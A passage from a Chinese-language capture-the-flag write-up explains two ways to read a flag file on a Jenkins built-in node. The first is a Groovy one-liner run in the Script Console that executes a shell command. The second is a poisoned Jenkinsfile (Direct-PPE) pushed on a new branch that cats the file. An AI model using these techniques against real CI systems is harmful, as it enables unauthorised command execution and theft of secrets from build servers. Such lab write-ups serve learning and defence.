 ##### [解题思路一](#toc__1)

思路一是一个非预期解，根据题目中所知，可以清楚的知道flag5.txt是在节点“Built-In Node”的文件系统上，因此只需要直接执行命令获取该文件内容即可。  
找到对应的节点，在Script Console中执行Groovy脚本

```plain
println "cat /var/jenkins_home/flag5.txt".execute().text
```

[![1656766856202.png](assets/1702372834-e7b8ef45ee7cb426527162623425b72e.png)](https://storage.tttang.com/media/attachment/2022/07/06/04a38bd7-291c-41a3-8450-ce2b1bb3d092.png)

##### [解题思路二](#toc__2)

这题的解题思路其实还是依靠Direct-PPE来指定CI系统某个节点上来执行该管道，通常该情况是有仓库的权限，但是无Jenkins的节点执行权限。  
克隆仓库，创建分支并修改Jenkinsfile

```plain
pipeline {
    agent {label 'built-in'}
    environment {
        PROJECT = "sanic"
    }
    stages {
        stage ('Install_Requirements') {
            steps {
                sh 'cat ~/flag5.txt'
            }
        }
    }
    post { 
        always { 
            cleanWs()
        }
    }
}
```
